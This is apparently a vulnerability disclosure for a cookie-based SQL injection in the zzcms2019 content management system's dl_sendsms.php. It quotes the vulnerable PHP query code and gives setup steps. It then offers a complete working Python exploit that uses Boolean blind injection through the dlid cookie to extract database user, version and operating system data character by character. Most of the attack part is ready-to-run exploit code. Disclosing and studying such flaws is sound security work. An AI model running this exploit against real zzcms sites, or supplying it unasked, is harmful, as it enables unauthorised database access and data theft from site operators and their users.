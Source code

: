 # zzcms2019 SQL injection vulnerability in dl_sendsms.php

Local setup environment for testing (no special environmental requirements)


The vulnerability is located at line 74 of `/dl/ dl_sendsm.php`, with the following partial code


```php
if (strpos(@$_COOKIE['dlid'],",")>0){
$sql="select tel from zzcms_dl where passed=1 and id in (".@$_COOKIE['dlid'].") order by id asc limit $n,$size";
}else{
$sql="select tel from zzcms_dl where passed=1  and id='".@$_COOKIE['dlid']."'";
}
```

If the cookie in the first SQL statement is directly spelled into the statement without single quotation marks, you don't need to worry about escaping the cookie from zzcms2019, just use Boolean blind injection without single quotation marks


The front desk registered a new account, the type is the company type, because it is a test environment, there is no data, so first go to the user center email/SMS content Settings to add email/SMS content email and set it as the default


![](https://i.loli.net/2019/09/20/8U5wXyPtrM3RTbK.png)

![](https://i.loli.net/2019/09/20/KywYHATNuXZho48.png)

Normal access to `/dl/dl_sendsm.php` is shown below

![](https://i.loli.net/2019/09/20/BVbNPTDk2xje6Wv.png)

Payload for cookie injection is as follows

![](https://i.loli.net/2019/09/20/xUFRvTKtdpLyz1c.png)

Use exp for Boolean blind injection


```python
#coding: utf-8
import requests
import string

url = 'http://{}/dl/dl_sendsms.php'

#header 头，自己根据实际环境做修改
headers = {
'Host':'{}',
'User-Agent':'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:68.0) Gecko/20100101 Firefox/68.0',
'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
'Accept-Language':'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
'Accept-Encoding':'gzip, deflate',
'Content-Type':'application/x-www-form-urlencoded',
'Connection':'keep-alive',
'Cookie':'{}'
}

def Sqli(host,sql):
	global url
	global headers
	url = url.format(host)
	sqli = "ascii(substr(({}),{},1)))={}"
	sqli_2 = "0,(if((({}),1,0)))#"
	res_data = ""
	s = requests.session()
	i = 1
	while 1:
		tmp_data = res_data
		for c in string.printable:
			tmp_header = headers['Cookie']
			sqli_data = sqli_2.format(sqli.format(sql,str(i),ord(c)))
			headers['Cookie'] = headers['Cookie'] + "; dlid=" + sqli_data
			res = s.get(url, headers=headers)
			if "refresh" in res.text: #自己根据实际环境做修改
				headers['Cookie'] = tmp_header
				res_data += c
				print (res_data)
				break
			headers['Cookie'] = tmp_header
		i += 1
		if tmp_data == res_data:
			print ('完成')
			return 

if __name__ == "__main__":
	#设置 host 地址
	host = "127.0.0.1:9000"
	#设置用户 cookie
	user_cookie = "PHPSESSID=dh6bhd10g47tjc4jlhqf2leqnn; UserName=test; PassWord=343b1c4a3ea721b2d640fc8700db0f36"
	sql = "select group_concat(user(),version(),@@version_compile_os)"
	headers['Host'] = headers['Host'].format(host)
	headers['Cookie'] = headers['Cookie'].format(user_cookie)
	Sqli(host,sql)
```

The injection results are as follows

![](https://i.loli.net/2019/09/20/5QUorGd4RI1Vhn6.png)

